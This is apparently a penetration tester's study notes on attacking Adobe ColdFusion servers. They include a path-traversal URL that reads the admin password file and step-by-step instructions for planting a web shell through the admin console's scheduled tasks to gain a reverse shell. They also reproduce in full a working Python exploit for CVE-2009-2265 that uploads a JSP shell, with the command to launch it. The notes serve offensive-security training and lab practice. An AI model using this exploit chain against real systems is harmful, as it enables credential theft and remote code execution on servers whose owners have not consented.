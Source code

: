 #### Resources

https://pentest.tonyng.net/attacking-adobe-coldfusion/

http://dronesec.pw/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

https://github.com/hatRiot/clusterd/blob/master/src/platform/coldfusion/deployers/lfi_stager.py

https://www.exploit-db.com/exploits/27755

---

#### ColdFusion Password attack
```
http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Hashcat#Sha1]]

#### Admin page reverse shell
Find the local path: mappings
![[Pasted image 20220613153218.png]]

Debugging & Logging > Scheduled Tasks > Schedule New Task

```
cp /usr/share/webshells/cfm/cfexec.cfm .
```

OR 

create a malicious jsp and follow similar steps! >>>

![[0._Reverse shells (WEB)#jsp]]

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Provide Task Name.
For Frequency, set for just a few minutes in advance from current time.

**MAKE SURE TO  CHECK THE PUBLISH BOX!**

For file path, use the path found from mappings page: `C:\Inetpub\wwwroot\CFIDE\cfexec.cfm`

![[Pasted image 20220613154728.png]]

After hitting submit, can run tasks right away (Green button), then visit exploit to launch.

`http://$TARGET:/CFIDE/cfexe.cfm`

[[1._Reverse Shells (WIN)#Stageless Payloads]]

[[4._File Transfers]]

![[Pasted image 20220613155208.png]]

[[rlwrap]]

#### ColdFusion 8 FileUpload

https://forum.hackthebox.com/t/python-coldfusion-8-0-1-arbitrary-file-upload/108

FileUpload.py
```python - kali
#!/usr/bin/python
# Exploit Title: ColdFusion 8.0.1 - Arbitrary File Upload
# Date: 2017-10-16
# Exploit Author: Alexander Reid
# Vendor Homepage: http://www.adobe.com/products/coldfusion-family.html
# Version: ColdFusion 8.0.1
# CVE: CVE-2009-2265 
# 
# Description: 
# A standalone proof of concept that demonstrates an arbitrary file upload vulnerability in ColdFusion 8.0.1
# Uploads the specified jsp file to the remote server.
#
# Usage: ./exploit.py <target ip> <target port> [/path/to/coldfusion] </path/to/payload.jsp>
# Example: ./exploit.py 127.0.0.1 8500 /home/arrexel/shell.jsp
import requests, sys

try:
    ip = sys.argv[1]
    port = sys.argv[2]
    if len(sys.argv) == 5:
        path = sys.argv[3]
        with open(sys.argv[4], 'r') as payload:
            body=payload.read()
    else:
        path = ""
        with open(sys.argv[3], 'r') as payload:
            body=payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.jsp>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.jsp'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'

try:
    req = requests.post(basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploit.jsp%00", files={'newfile': ('exploit.txt', body, 'application/x-java-archive')}, timeout=30)
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploit.jsp'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```

![[0._Reverse shells (WEB)#jsp]]

![[rlwrap]]

```bash - kali
python FileUpload.py $TARGET 8500 shell.jsp 
```


---

